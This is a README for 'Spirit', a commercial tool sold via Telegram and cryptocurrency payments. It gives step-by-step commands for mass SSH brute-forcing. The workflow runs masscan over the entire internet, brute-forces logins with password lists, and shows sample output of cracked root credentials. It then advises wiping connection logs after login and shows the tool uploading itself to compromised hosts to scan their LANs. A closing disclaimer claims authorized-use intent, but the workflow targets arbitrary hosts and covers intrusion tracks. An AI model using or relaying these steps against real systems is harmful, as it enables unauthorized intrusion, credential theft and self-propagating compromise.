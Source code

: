# Spirit - Network Pentest Tools
> We believe in making the internet a safe environment where security is taken seriously as a priority and forcing out of the market bad actors like the admins allowing password authentication over such a critical cog of our infrastructure. Spirit is designed to root out these weeds (pun intended).

### [Download the latest Spirit release](https://github.com/theaog/spirit/releases)
```bash
$ wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
$ curl -OL https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
```
> NOTE: Plenty of fake Spirit clones are being distributed, make sure to verify you're running the original by checksum: `$ sha256sum -c spirit.sum`

> [`$ ./spirit --help`](./HELP) shows you all the included tools. \
Most commands have subcommands `./spirit <command> --help`

## Local network demo
[![asciicast](https://asciinema.org/a/645079.svg)](https://asciinema.org/a/645079?autoplay=true&loop=true)

## Quick Start
```bash
wget https://github.com/theaog/spirit/releases/download/1.30/spirit.tgz
tar xvf spirit.tgz
./spirit --help

./go.sh 192 22 50000
```

## Autobrute with zones (requires license)
```bash
# Create zone.lst containing IP addresses in CIDR notation
$ cat >zone.lst<< EOF
192.168.0.0/16
172.16.0.0/12
10.0.0.0/8
EOF

# autobrute will generate collision-free(non-repeating) random ports
# scan and brute them over and over -- forever!
./spirit autobrute
```


## Support
- [GitHub Issue](https://github.com/theaog/spirit/issues/new)
- [Telegram](https://t.me/spiritNPT)

## Upgrade Spirit automatically
```bash
./spirit upgrade
Upgrading 87% [========================>     ] (5.9/5.9 MB, 49.652 MB/s)
```

## Example usage for SSH brute flow TLDR;
```bash
# First scan your network or the internet (check disclaimer) to acquire a list of open ports.
$ masscan \
    --rate="50000" \
    --ports "22,222,2222,2212" 0.0.0.0/0 \
    --exclude 255.255.255.255 \
    -oG open.lst
Scanning 4294967295 hosts [4 ports/host]
# masscan will create an open.lst file in oG (output Greppable) format.

# Parse this open.lst to format the data, so that spirit can understand it.
$ ./spirit parse
INFO created h.lst in HOST:PORT format

# Optional: create a filter.lst file if you want to skip certain SSH versions.
$ cat >filter.lst<< EOF
SSH-1.0
SSH-2.0-CISCO
SSH-2.0-Comware
EOF

# Grab SSH banners to make sure your target version is running on the host. NOTE: Makes a backup of h.lst to h.lst.bak
$ ./spirit banner
INFO backing up h.lst to h.lst.bak
SSH-2.0-OpenSSH_8.2p  13% [=>                  ] [11s:1m15s]
INFO created h.lst in HOST:PORT:BANNER format
head -n1 h.lst
100.100.100.100:2222:SSH-2.0-OpenSSH_6.6.1

# Add a password list, spirit will automatically load user:pass from a p.lst file.
# NOTE: if p.lst is not present, Spirit uses an internal passfile
$ cat > p.lst << EOF
user1:pass1
user1:pass2
user2:pass50
EOF

# Start bruting...
$ ./spirit brute
Spirit NPT (v1.30) upgrade by 24 Mar 24 00:00 UTC
HINT: Use `./spirit zap` to clean connection logs after you login via SSH
rlimit soft [1048576] hard [1048576]
INFO loaded b.lst with 26803 hosts
INFO loaded p.lst with 4881 logins
INFO randomized hosts
INFO block [true]
INFO timeout [5s]
INFO threads [1024]
[2478/4653]root:!1qwerty [77]found [33]blocked [1284]threads 20% [====>               ] [20s:1h13m36s]
Results
 |- found.ssh # Prepared SSH command
 |- found.login # Successful USER:PASS combinations
 |- found.lst # Syntax for autossh tool
 |- found.errors # SSH connection error statistics
Hosts[26803] Bruted[4000] Blocked[19803] Found[3000]

# If you want to go Faster try blocking bad hosts
./spirit brute --block=true

# Connect to all your found hosts automatically & run commands.
$ ./spirit autossh --command 'whoami && uptime'
# Upload spirit to all hosts and scan the LAN
$ ./spirit autossh --upload ./spirit --command '/tmp/spirit scan --lan'
```

## Spirit is Free (sorta)
Scanning port 22 is unlimited, any other port requires a license.

## You can unlock Spirit's full functionality directly from the CLI by obtaining a license.
```bash
$ ./spirit buy

Payment-flow Support @ https://t.me/spiritNPT
Pricing model: $1 / Server / Day

┃ How many servers?> 3

┃ How many days?> 30

┃ Would you like 10% off using a referral code?
┃
┃   Yes     No
```

> if you encounter any issues w/ the payment, please reach out to us on [telegram](https://t.me/spiritNPT) or open an [issue](https://github.com/theaog/spirit/issues)

# Support our development

## Help us spread the word about Spirit!
Refer Spirit in your community or work environment and earn up to 30% in Referral Fees. \
Start here: `$ ./spirit partner` || generate your Referral Code which grants 10% off on any Spirit plan.

## Monero (XMR) thank you! (our favorite)
`895LJnKcfTv7NHf7SN1zz5UzhBRwwvdR8NYLvXNr54jJ3GXghBoyfBKLp2dL4GcYohQatRnigct8zgK6utkjjeBxVNsky1s`

![xmrqr](asset/xmrqr.png)

## Bitcoin (BTC) thank you too!
`bc1q7plm79dgllrhrjz772x4vjrtvu9yy03738psy5`

## Get Help & Support
Open a Github [issue](https://github.com/theaog/spirit/issues) and consider encrypting your message using this pub key [aog.gpg](asset/aog.gpg).

Don't forget to give us a Star!

> NOTICE: rumors have been circulating that `spirit` contains a backdoor -- that's not true, we would never do that. We offer a bounty of 50XMR to whomever opens an issue in this repo and provides undeniable proof of the "alleged" backdoor.

> [!NOTE]
Spirit is clean software the only data it sends home is your machine-id to verify the license.

# Disclaimer

> [!IMPORTANT]
> This tool should be used for authorized penetration testing and/or educational purposes only. Any misuse of this software will not be the responsibility of the author or of any other collaborator. Use it on your own systems and/or with the system owner's permission. Usage of any tools in this repository for attacking targets without prior mutual consent is illegal. It is the end user’s responsibility to obey all applicable local, state and federal laws. We assume no liability and are not responsible for any misuse or damage caused.
